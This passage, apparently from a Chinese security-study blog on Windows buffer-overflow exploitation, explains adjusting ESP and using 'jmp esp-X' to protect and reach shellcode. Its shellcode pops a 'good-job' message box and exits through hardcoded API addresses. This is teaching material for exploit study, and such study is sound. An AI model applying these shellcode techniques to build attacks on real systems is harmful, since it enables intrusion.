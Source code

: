 我们得到以下优化模型：

![Screen Shot 2018-06-20 at 8.24.26 PM.png]({{ site.url }}/images/0day/C6F049D5CEBE5AC392955E9F5D0CABB6.png)

如上，通过`sub esp, X`我们把`ESP`向上抬高移动到shellcode后，从而避免其被破坏（后面是未使用的栈空间，所以不会造成其他影响）；通过`jmp esp-X`我们很巧妙地把shellcode移动回了合法缓冲区。

现在我们把想法付诸实践：

```assembly
#include <windows.h>

int main()
{
	HINSTANCE LibHandle;
	char dllbuf[11] = "user32.dll";
	LibHandle = LoadLibrary(dllbuf);
	_asm{
		nop
		nop
		nop
		sub sp, 0x440

		xor ebx, ebx
		push ebx
		push 0x626F6A2D
		push 0x646F6F67

		mov eax, esp
		push ebx ; uType
		push eax ; lpCaption
		push eax ; lpText
		push ebx ; hWnd

		mov eax, 0x77D507EA
		call eax

		push ebx
		mov eax, 0x7C81CAFA
		call eax

		nop
		nop
		nop
	}
	return 0;
}
```

另外，`jmp esp-X`对应的实际上是：

```assembly
mov eax, esp
sub eax, 0x38
jmp eax
```
